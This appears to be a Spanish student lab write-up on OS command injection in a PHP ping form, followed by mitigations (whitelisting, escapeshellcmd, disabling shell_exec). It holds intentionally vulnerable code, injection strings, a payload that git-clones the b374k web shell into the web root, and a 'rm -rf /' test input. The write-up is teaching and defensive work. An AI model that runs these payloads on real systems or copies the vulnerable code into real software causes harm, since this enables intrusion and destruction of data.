









# PPS-Unidad3Actividad7-Aaron

## Código vulnerable

He creado un fichero **rce.php**  dentro de mi máquina vulnerable:

```php
<?php
if (isset($_POST['ip'])) {
        $ip = $_POST['ip'];
        // Ejecutar el ping y capturar la salida
        $output = shell_exec("ping -c 4 " . $ip);
        echo $output;
}
?>
<form method="post">
        <input type="text" name="ip" placeholder="Ejemplo: 8.8.8.8" required>
        <button type="submit">Hacer Ping</button>
</form>
```

Este código crea un campo de texto y un botón con php en el que podemos introducir contenido sin que sea filtrado, en caso de que introduzcamos una dirección ip. nos muestra el intercambio de paquetes.
(valor del campo: 8.8.8.8)



Para explotarlo voy a concatenear otro comando detrás de la dirección ip con ; para que lo ejecute a continuación del ping.
(valor del campo: 8.8.8.8;id)



### Descargar contenido

Primero en la máquina vulnerable le he dado permisos 777 al directorio **/var/www/html**.



Si ejecutamos un clonado de git concatenado a la ip del ping del campo vulnerable nos hace un clonado correctamente

```bash
8.8.8.8 & git clone https://github.com/b374k/b374k.git /var/www/html/b374k
```



Al acceder a la siguiente ruta:

```bash
http://localhost/b374k/index.php
```

Muestra el index del repositorio clonado



## Mitigaciones

Para las mitigaciones voy a usar unos campos completamente distingos al del ping anterior.

Cambiar el contenido de **rce.php**:

```php
<?php
$output = shell_exec($_GET['cmd']);
echo "<pre>$output</pre>";
?>
```

Por otro lado tenemos el *rce.html**:

```html
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Ejecutar Comando</title>
</head>
<body>
    <h2>Ingrese el comando a ejecutar</h2>
    <form method="get" action="http://localhost/rce.php">
        <input type="text" name="cmd" placeholder="Ejemplo: whoami" required>
        <button type="submit">Ejecutar</button>
    </form>
</body>
</html>
```

Este *HTML*, lo que hace es llamar al **rce.php** que hemos guardado anteriormente.


### Eliminar el uso de shell_exec()

Lo primero para mitigar es cambiar el **rce.php** por este nuevo:

Código seguro (rce.php sin posibilidad de ejecución de comandos ya que se elimina totalmente)

```php
<?php
die("Esta funcionalidad ha sido deshabilitada por razones de seguridad.");
?>
```

Si se necesita permitir algunos comandos específicos, usar una lista blanca (whitelist).

Código seguro (rce.php con lista blanca de comandos permitidos)

```php
<?php
$allowed_cmds = ["ls", "whoami", "pwd"];
if (!isset($_GET['cmd']) || !in_array($_GET['cmd'], $allowed_cmds)) {
        die("Comando no permitido.");
}
$output = shell_exec($_GET['cmd']);
echo htmlspecialchars($output, ENT_QUOTES, 'UTF-8');
?>
```

Permitimos la ejecución de comandos ls, whoami, pwd, el resto dará mensaje de "comando no permitido".
Ejemplo de pwd:



Sin embargo, comandos no permitido:



### Ejecutar Comandos con Escapes Seguros

Si se necesita ejecutar comandos con argumentos, usar escapeshellcmd() para evitar inyección de comandos.

Código seguro (rce.php con escapes para argumentos)

```php
<?php
if (isset($_GET['cmd'])) {
    // Obtener el comando de la URL
    $cmd = $_GET['cmd'];

    // Usar escapeshellarg para proteger la entrada
    $cmd_safe = escapeshellcmd($cmd);

    // Ejecutar el comando de manera segura
    $output = shell_exec($cmd_safe);
    if (empty($output)) {
            echo "Comando no permitido.";
    } else {
        // Mostrar la salida de forma segura
        echo "<pre>" . htmlspecialchars($output) . "</pre>";
    }
}
?>
```
Si ejecuto ahora este comando

```bash
http://localhost/rce.php?cmd=ping 8.8.8.8; rm -rf /
```



Deshabilitar shell_exec() en PHP

Si no se necesita ejecución de comandos en todo el servidor, deshabilitar las funciones peligrosas en php.ini.

Editar php.ini, para ello utilizamos el editor de texto nano (o el que prefiramos) para abrir la configuración de PHP de nuestro contenedor.

```bash
docker exec -it lamp-php83 /bin/bash
```

Editando el php.ini de la máquina vulnerable y agregando esta línea al final:


## PRUEBA FINAL

Acceder a:

```
http://localhost/rce.php?cmd=id
```
Si la mitigación funciona, se debería ver el mensaje "Comando no permitido." en pantalla. o en el caso de que utilizamos el entorno de pruebas, el error php.


